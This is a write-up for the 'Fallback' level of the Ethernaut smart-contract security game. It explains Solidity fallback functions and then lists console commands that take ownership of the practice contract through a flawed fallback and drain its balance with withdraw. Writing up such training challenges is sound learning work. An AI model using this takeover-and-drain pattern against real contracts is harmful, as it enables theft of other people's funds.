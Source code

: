 # Level 1 Fallback

Challenge URL = https://ethernaut.zeppelin.solutions/level/0x234094aac85628444a82dae0396c680974260be7

# Fallback Function Background Info 
Defined
Each contract may have a single function that has been unnamed.  This is considered to be the fallback function.  

Constraints
It cannot have any arguements nor return anything.  You can use msg.data to retrieve payload supplied with the call.
To Recieve ether it must be marked as "payable" 
If no "payable" function, contract cant recieve ETH via regular transactions
Fallback function should cost no more than 2300 gas.  Make them as cheap as possible, test & verify cost.
Some Operations consume A LOT of gas so try not to use them in the fallback function
-Contract Creation
-Sending Ether
-Writing to storage
-External call that requires a lot of gas


Execution
Are executed if 
1.  Contract is called and no other function matches the specified function identifier or no data supplied
or 
2.  Contract recieves plain ether without any data. 
 



# problem

-function contriubute() public payable
    Looks like the author wanted the owner to only be replaced if a contributor sends more than the current owner.  
-The problem comes with the fallback function.  It lets a sender become the owner  of the contract.  To do this the  given that the transaction has any ether >0 and that the sender has made a contribution in the past. 

# Solution

1.  Send 1 wei to 'function contribute() public payable'
await contract.contribute({ value: 1 })
await contract.getContribution().toString()
2.  Send 1 wei to the fallback function 'await contract.sendTransaction({ value: 1 })
3.  Verify that you are the owner await contract.owner()
4.  Call the withdraw function and drain the contract of it's balance
contract.withdraw()
5.  Submit the instance




